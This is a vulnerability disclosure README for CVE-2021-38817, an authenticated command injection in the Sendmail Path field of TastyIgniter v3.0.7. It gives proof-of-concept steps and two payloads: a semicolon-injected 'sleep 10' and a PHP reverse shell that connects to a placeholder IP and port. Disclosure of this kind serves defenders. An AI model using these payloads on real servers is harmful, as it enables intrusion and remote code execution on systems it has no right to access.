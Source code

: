 # CVE-2021-38817-Remote-OS-Command-Injection
Authenticated Remote OS Command Injection/Remote Code Execution in TastyIgniter v3.0.7 Sendmail web part (CVE-2021-38817)

An authenticated remote OS command injection vulnerability exists in the TastyIgniter v3.0.7 Restaurtant CMS Sendmail configuration menu for the web application. The Sendmail Path parameter is not sanitized properly, as indicated by the `/usr/sbin/sendmail -bs` command populated in the field, and allows arbitrary command to be injected by adding a semi-colon and an additional OS command.

## Affected Components

### URL: `/admin/settings/edit/mail`
### Field:
- Mail Protocol: Sendmail
- Field: Sendmail Path

## POC
- Authenticate to the /admin portal with credentials.
- Browse to `/admin/settings/edit/mail`
- In the `Mail Protocol` drop down menu, select `Sendmail`
- In the new `SendMail Path` field, add a semi-colon and an arbitrary OS command, i.e. `/usr/sbin/sendmail -bs; sleep 10`

## Payloads
- `/usr/sbin/sendmail -bs; sleep 10`
- `/usr/sbin/sendmail -bs; php -r '$sock=fsockopen("[IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'`
 
![TastyIgniterCVE](https://user-images.githubusercontent.com/57866415/129465103-f4a1349c-c25e-43c7-909c-711dcd332b06.gif)

## Discovered by
Matt Kiely (HuskyHacks) and Mike Padrick (Fearless), August 2021

CVE assigned Oct 2022 (lmfao)
